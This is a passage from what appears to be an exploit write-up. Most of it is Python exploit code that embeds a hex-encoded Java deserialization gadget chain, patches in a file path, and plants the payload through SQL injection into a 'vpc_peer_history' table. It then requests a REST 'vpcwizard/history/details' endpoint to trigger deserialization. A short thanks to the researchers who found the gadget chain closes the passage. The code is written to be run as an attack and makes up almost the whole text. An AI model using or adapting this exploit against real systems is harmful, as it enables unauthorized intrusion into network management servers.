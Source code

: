```py
    6f6e63757272656e742e6c6f636b732e5265656e7472616e744c6f636b24
    53796e63b81ea294aa445a7c020000787200356a6176612e7574696c2e63
    6f6e63757272656e742e6c6f636b732e4162737472616374517565756564
    53796e6368726f6e697a65726655a843753f52e302000149000573746174
    65787200366a6176612e7574696c2e636f6e63757272656e742e6c6f636b
    732e41627374726163744f776e61626c6553796e6368726f6e697a657233
    dfafb9ad6d6fa90200007870000000003f4000007371007e00647371007e
    0068000000003f4000007371007e00647371007e0068000000003f400000
    7371007e00647371007e0068000000003f4000007371007e00647371007e
    0068000000003f4000007371007e00647371007e0068000000003f400000
    7371007e00647371007e0068000000003f4000007371007e00647371007e
    0068000000003f4000007371007e00647371007e0068000000003f400000
    7371007e00647371007e0068000000003f4000007371007e00647371007e
    0068000000003f4000007371007e00647371007e0068000000003f400000
    7371007e00647371007e0068000000003f4000007371007e00647371007e
    0068000000003f4000007371007e00647371007e0068000000003f400000
    7371007e00647371007e0068000000003f40000070707871007e00577100
    7e0020770400000003737200116a6176612e6c616e672e496e7465676572
    12e2a0a4f781873802000149000576616c7565787200106a6176612e6c61
    6e672e4e756d62657286ac951d0b94e08b02000078700000000171007e00
    8d78""" % filename.encode("hex")

    d = ''.join(ser.split()).decode("hex")

    # patch the length if its shorter
    vfs_path = str(vfs)
    while (len(vfs_path) != 45):
        vfs_path += "/"

    d = d.replace('xxxxxxxxxxxxxxxxxxxx/yyyyyyyyyyyyyyyyyyyyyyyy', vfs_path)
    d = d.encode("hex")

    sql = "delete from vpc_peer_history where id=1337;"
    sql += "insert into vpc_peer_history(id, commands) values (1337, decode('%s', 'hex'));" % d
    if we_can_trigger_sqli(target, sql):
        return True
    return False

def we_can_trigger_deserialization(target):
    uri = "https://%s/fm/fmrest/virtualportchannel/vpcwizard/history/details" % target
    p = {"context": 1337, "jobId": 1337}
    c = { "resttoken" : resttoken }
    r = requests.get(uri, cookies=c, params=p, verify=False, allow_redirects=False)
    if r.status_code == 200:
        return True
    return False
```

A huge thanks goes to [Alvaro Munoz](https://twitter.com/pwntester) and [Christian Schneider](https://twitter.com/cschneider4711) for this gadget chain, nice work!

